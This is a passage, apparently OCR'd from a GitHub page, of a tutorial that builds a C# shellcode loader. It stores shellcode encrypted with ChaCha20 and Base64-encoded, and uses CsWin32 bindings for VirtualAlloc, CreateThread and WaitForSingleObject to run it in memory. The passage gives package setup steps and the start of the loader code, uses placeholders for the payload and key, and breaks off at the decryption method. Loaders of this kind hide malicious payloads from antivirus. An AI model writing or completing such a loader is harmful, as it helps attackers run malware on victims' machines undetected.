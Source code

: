 ### **2. Generated C# Code: Using CsWin32**

This C# code will include:

- **Encrypted shellcode**: A Base64-encoded string of the encrypted shellcode.
- **Key and Nonce**: Base64-encoded strings for the ChaCha20 key and nonce.
- **Decryption Function**: A method to decrypt the shellcode using ChaCha20.
- **Execution Function**: A method to execute the decrypted shellcode, leveraging **CsWin32** for native API calls.

#### **Adding CsWin32 to Your Project**

To use **CsWin32**, you'll need to set it up in your project:

1. **Install CsWin32**:

   ```bash
   dotnet add package Microsoft.Windows.CsWin32
   ```

2. **Generate Windows API Projections**: Add a `NativeMethods.txt` file in your project root with the following contents:

   ```
   CreateThread
   VirtualAlloc
   WaitForSingleObject
   ```

   When you build your project, **CsWin32** will automatically generate the necessary P/Invoke signatures.

#### **Example Generated C# Code**

```csharp
using System;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using Windows.Win32;
using Windows.Win32.System.Threading;
using Windows.Win32.Foundation;
using Windows.Win32.System.Memory;

namespace ShellcodeLoader
{
    class Program
    {
        static void Main(string[] args)
        {
            // Encrypted shellcode, key, and nonce in Base64 format
            string encryptedShellcodeB64 = "ENCRYPTED_SHELLCODE";
            string keyB64 = "KEY";
            string nonceB64 = "NONCE";

            // Convert Base64 strings back to byte arrays
            byte[] encryptedShellcode = Convert.FromBase64String(encryptedShellcodeB64);
            byte[] key = Convert.FromBase64String(keyB64);
            byte[] nonce = Convert.FromBase64String(nonceB64);

            // Decrypt the shellcode
            byte[] decryptedShellcode = DecryptShellcode(encryptedShellcode, key, nonce);

            // Execute the shellcode
            ExecuteShellcode(decryptedShellcode);
        }

        static byte[] DecryptShellcode(byte[] encryptedShellcode, byte[] key, byte[] nonce)
        {
```